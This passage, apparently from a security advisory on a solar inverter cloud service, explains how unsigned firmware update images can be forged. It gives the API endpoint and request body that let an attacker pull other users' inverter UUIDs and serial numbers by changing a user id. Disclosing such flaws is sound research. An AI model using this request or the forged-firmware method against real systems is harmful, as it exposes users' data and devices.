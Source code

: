 This header contains a length field and a CRC field (both UTF-8 encoded). The CRC (called CRC32_3 here) is calculated on the data placed just after `header_3` with a length found in the `LEN` field (here 270336 bytes length / integer; CRC32_3 = `4A 9E 56 A2`). Note that a padding with `0xFF` is added at the end of the decrypted `sgu` file to align the size to 128 bits (AES block length).

Knowing all this information, it is possible to craft a valid firmware update image with a manipulated firmware. No asymmetric signature has been found in the update image.

## Extracting valid serial numbers

Improper authorization enabled an attacker to get information related to any registered user: number of inverters, inverter types, and more important: inverter `uuid`. 

Here is the API call endpoint:
```
https://gateway.isolarcloud.eu/v1/devService/getRemoteUpgradeDeviceList 
```
Here is the plain content of the call:
```json
{
    "sys_code": 0,
    "psIds": "",
    "device_type": 1,
    "device_model_id": "",
    "device_sn": "",
    "user_id": [targeted_user_id],
    "ps_id_list": [],
    "sn_list": [],
    "uuid_list": [],
    "curPage": 1,
    "size": 10,
    "service": "getRemoteUpgradeDeviceList",
    "api_key_param": {
        "timestamp": [timestamp],
        "nonce": "[NONCE]"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "[VALID_TOKEN]"
}
```
Note that the `targeted_user_id` (integer) can be different from the user id associated with the token.

Here is an example of plain response (json list, truncated):
```json
[
    {
        "logger_code": 247,
        "is_enable": 1,
        "firmware_version_info": {
            "mdsp_version": "EMERALD-S_03011.01.09",
            "lcd_version": "EMERALD-S_01011.01.08",
            "afci_version": "AFCI_06002.02.07"
        },
        "is_haveversion": 1,
        "device_type": 1,
        "uuid": xxxxxx,
        "afci_version": "AFCI_06002.02.07",
        "sdsp_version": null,
        "battery_version": null,
        "communication_dev_sn": "Bxxxxxxxxxx",
        "temp_version": null,
        "pvd_version": null,
        "mdsp_version": "EMERALD-S_03011.01.09",
        "chnnl_id": 1,
```